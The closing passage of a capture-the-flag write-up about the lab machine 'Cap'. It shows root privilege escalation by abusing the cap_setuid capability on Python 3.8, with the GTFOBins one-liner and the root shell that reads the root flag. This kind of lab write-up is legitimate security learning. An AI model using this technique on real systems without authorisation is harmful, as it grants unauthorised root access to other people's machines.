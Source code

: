 The most interesting file was `/usr/bin/python3.8` that has the `cap_setuid` capability set, which, according to [python \| GTFOBins](https://gtfobins.github.io/gtfobins/python/#capabilities) it can be exploited by changing the uid of the session using the command below, spanning another instance of `/bin/sh` and, from it, was able to read `root`'s flag.

```bash
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id && hostname && cat /root/root.txt
uid=0(root) gid=1001(nathan) groups=1001(nathan)
cap
<redacted>
```

I hope you guys have enjoyed it!

See you at the next post :smile:
